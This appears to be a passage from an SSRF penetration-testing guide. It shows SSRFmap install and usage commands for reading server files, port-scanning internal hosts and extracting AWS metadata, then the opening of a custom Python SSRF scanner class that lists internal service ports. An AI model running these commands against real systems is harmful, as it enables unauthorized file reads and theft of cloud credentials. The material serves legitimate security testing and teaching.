 ### 2. 🤖 Automated Detection

#### SSRFmap - SSRF Exploitation Tool
```bash
# Installation
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap
pip3 install -r requirements.txt

# Basic usage
python3 ssrfmap.py -r data/request.txt -p url -m readfiles

# Advanced usage
python3 ssrfmap.py -r request.txt -p url -m portscan --lhost 127.0.0.1 --lport 80-8080

# AWS metadata extraction
python3 ssrfmap.py -r request.txt -p url -m aws
```

#### Custom SSRF Scanner
```python
#!/usr/bin/env python3
"""
Advanced SSRF Scanner

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import time
import threading
from urllib.parse import urljoin
import socket

class SSRFScanner:
    def __init__(self, target_url, parameter):
        self.target_url = target_url
        self.parameter = parameter
        self.session = requests.Session()
        self.vulnerabilities = []
        
        # Common internal services
        self.internal_services = {
            80: 'HTTP',
            443: 'HTTPS',
            22: 'SSH',
            21: 'FTP',
            23: 'Telnet',
            25: 'SMTP',
            53: 'DNS',
            110: 'POP3',
            143: 'IMAP',
            993: 'IMAPS',
            995: 'POP3S',
            3306: 'MySQL',
            5432: 'PostgreSQL',
            6379: 'Redis',
            27017: 'MongoDB',
            8080: 'HTTP-Alt',
            8443: 'HTTPS-Alt',
            9200: 'Elasticsearch'
        }
        
```